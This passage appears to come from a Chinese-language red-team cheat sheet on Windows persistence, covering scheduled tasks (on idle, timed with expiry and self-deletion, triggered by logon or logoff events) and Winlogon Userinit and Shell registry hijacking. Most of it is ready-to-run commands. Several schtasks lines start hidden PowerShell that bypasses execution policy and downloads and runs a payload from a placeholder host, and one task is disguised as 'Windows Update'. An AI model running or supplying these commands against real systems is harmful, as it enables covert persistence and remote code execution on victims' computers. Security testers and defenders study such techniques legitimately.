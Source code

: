 ```cmd
schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://IP:8080/ZPWLywg'''))'" /sc onidle /i 30
```

##### 到期启动并删除

有效负载的执行也可以在特定时间发生，并且可以具有到期日期和自删除功能

```cmd
# Usage
# /RU %USERNAME%：可选项
schtasks /CREATE /TN <Task Name> /TR "cmd.exe /c start /b <path to executable>" /SC minute /MO 1 /ED <Start Time:yyyy/mm/dd> /ET <End Time:hh:mm> /Z /IT /RU %USERNAME%

schtasks /CREATE /TN "A" /TR "cmd.exe /c start /b <path to executable>" /SC minute /MO 1 /ED 2023/08/29 /ET 17:27 /Z /IT

schtasks /CREATE /TN "Windows Update" /TR "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://IP:8080/ZPWLywg'''))'" /SC minute /MO 1 /ED 04/11/2019 /ET 06:53 /Z /IT
```

##### 日志触发计划任务

如果为目标事件启用了事件日志记录，则可以在特定 Windows 事件上触发任务

```cmd
# 登录日志ID：4624
wevtutil qe Security /f:text /c:1 /q:"Event[System[(EventID=4624)]]

# 注销日志ID：4634
wevtutil qe Security /f:text /c:1 /q:"Event[System[(EventID=4634)]]

# Usage
schtasks /Create /TN <Task Name> /TR "cmd.exe /c start /b <path to executable>" /SC ONEVENT /EC Security /MO "*[System[(Level=4 or Level=0) and (EventID=4634)]]"

schtasks /Create /TN OnLogOff /TR "cmd.exe /c start /b <path to executable>" /SC ONEVENT /EC Security /MO "*[System[(Level=4 or Level=0) and (EventID=4634)]]"

schtasks /Query /tn OnLogOff /fo List /v
```

### 2. Winlogon Helper

#### 原理

`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`的作用是指定用户登录时 Winlogon 运行的程序

默认情况下，Winlogon 运行 Userinit.exe（运行登录脚本），重新建立网络连接，然后启动 Windows 用户界面 Explorer.exe

可以更改此条目的值以添加或删除程序

```cmd
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit

# Usage
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, <path to executable>" /f
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, <path to executable>" /f

# PowerShell 使用 Set-ItemProperty cmdlet 修改现有注册表项
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, <path to executable>" -Force
```